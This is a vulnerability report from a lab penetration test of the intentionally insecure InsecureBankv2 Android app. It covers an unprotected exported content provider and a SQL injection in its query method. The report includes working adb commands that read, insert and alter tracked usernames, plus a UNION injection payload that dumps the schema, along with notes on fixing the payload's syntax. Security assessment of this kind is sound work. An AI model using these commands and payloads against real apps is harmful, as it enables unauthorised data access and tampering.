

# Exported content provider leaks tracked usernames and is SQL-injectable

**Vulnerability title:** `TrackUserContentProvider` is exported with no permission, and `query()` is SQL-injectable

**Scanner title:** Exported content provider (`COMPONENT_PROVIDER`)

**Severity:** High (confirmed)

**Component:** `com.android.insecurebankv2.TrackUserContentProvider`

**Authority:** `content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers`

**Device:** VirtualBox Android 9 (API 28), `10.0.2.5:5555`

## Description

The provider is `android:exported="true"` and has no `android:permission`, read permission, or write permission. It stores one table:

```sql
CREATE TABLE names (
  id INTEGER PRIMARY KEY AUTOINCREMENT,
  name TEXT NOT NULL
);
```

`DoLogin` inserts the username into this table after a successful login (`trackUserLogins()`). Any app on the device, and the `adb shell content` tool, can query, insert, update, and delete those rows.

`query()` also passes the caller's `selection` string into `SQLiteQueryBuilder` with a null projection map. The builder wraps that string in parentheses:

```text
SELECT * FROM names WHERE (<selection>) ORDER BY name
```

A selection that closes the parenthesis and comments out the rest changes the query. Two columns are required because `SELECT *` returns `id` and `name`.

## Steps performed

1. Confirmed the provider is exported and unprotected in the manifest, and read `query()`, `insert()`, `update()`, and `delete()` in `TrackUserContentProvider.java`.
2. Queried the provider from the shell user, which is outside the app:

```bash
adb shell content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
```

3. Inserted `labproof_user`, queried again, then updated that row to `labproof_user_tampered` with no permission.
4. Dumped the schema with:

```bash
adb shell content query \
  --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers \
  --where "1=0) UNION SELECT rowid, sql FROM sqlite_master--"
```

5. Wrote the command output to an HTML file and opened it in the device HTML viewer for a screenshot.

The same steps are `automated_exploitations/02_exported_provider.py`.

## Evidence

The provider already contained `dinesh`. That row was written by the app itself when the lab account logged in. The shell user did not insert it.

```text
===== query =====
Row: 0 id=2, name=dinesh
Row: 1 id=4, name=labproof_user

===== sql injection (sqlite_master) =====
Row: 0 id=1, name=CREATE TABLE android_metadata (locale TEXT)
Row: 1 id=2, name=CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL)
Row: 2 id=3, name=CREATE TABLE sqlite_sequence(name,seq)

===== query after update =====
Row: 0 id=2, name=dinesh
Row: 1 id=4, name=labproof_user_tampered
```

Full transcript: `automated_exploitations/evidence/02_provider_transcript.txt`



The screenshot shows the username `dinesh`, the tampered lab row, and the `CREATE TABLE` statements returned by the injected query.

## Impact

Any application on the device can read every username the bank app has recorded, add fake entries, change them, or delete them. The SQL injection returns the provider's own schema. The database currently has only the `names` table, so the injection does not reach other apps' databases. The confidentiality and integrity impact is the login-tracking data itself.

## Errors and fixes

**`content` split arguments.** The first injection and the first `ORDER BY` were sent as separate `adb shell` arguments. The device shell split on spaces, and the `content` tool reported `Unsupported argument: UNION` and `Unsupported argument: ASC`. Fix: pass the whole `content ...` command as one shell string so the `where` clause stays one argument.

**Unquoted delete.** `content delete --where name=labproof_user` produced:

```text
android.database.sqlite.SQLiteException: no such column: labproof_user
DELETE FROM names WHERE name=labproof_user
```

The quotes were stripped before they reached SQLite, so the value was parsed as a column. Fix: `--where "name='labproof_user'"`.

**UNION syntax error.** This selection:

```text
1=0 UNION SELECT rowid, sql FROM sqlite_master--
```

compiled to:

```text
SELECT * FROM names WHERE (1=0 UNION SELECT rowid, sql FROM sqlite_master--) ORDER BY name
```

SQLite reported `near "UNION": syntax error` because the builder wraps the selection in parentheses. Fix: close that parenthesis and comment out the leftover `)` and `ORDER BY`:

```text
1=0) UNION SELECT rowid, sql FROM sqlite_master--
```

That returned the three `sqlite_master` rows above.

**HTML viewer permission and cache.** The first attempt to display the proof opened a storage permission dialog ("Allow HTML Viewer to access photos, media, and files on your device?"). Tapping ALLOW cleared it. A later run reused the same viewer task and kept the previous file on screen. The script now force-stops `com.android.htmlviewer` before opening the file, and taps ALLOW when that button is present.
